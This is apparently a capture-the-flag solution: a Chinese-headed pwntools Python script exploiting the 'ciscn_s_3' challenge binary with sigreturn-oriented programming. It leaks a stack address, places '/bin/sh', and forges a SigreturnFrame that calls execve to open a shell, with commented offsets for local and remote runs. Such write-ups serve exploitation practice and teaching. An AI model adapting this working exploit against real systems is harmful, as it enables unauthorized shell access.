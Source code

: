 #### srop代码:
```
from pwn import *

context.arch='amd64'

# p=remote('node5.buuoj.cn',26988)

p=process("./ciscn_s_3")

elf=ELF('./ciscn_s_3')

# context.terminal = ['tmux']

  

gadget=0x4004DA

syscall=0x400517

vuln=0x4004ED

p.send(b'a'*0x10+p64(vuln))

# attach(p)

  

# binsh=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x118

#上面的是打远程的地址

binsh=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x148

#上面的是打本地地址

  

print(hex(binsh))

  

frame=SigreturnFrame()

frame.rax=59

frame.rdi=binsh

frame.rip=syscall

frame.rsi=0

frame=bytes(frame)

payload=flat(("/bin/sh\x00").ljust(0x10,'\x00'),p64(gadget),p64(syscall),bytes(frame))

p.send(payload)

  

p.interactive()
```

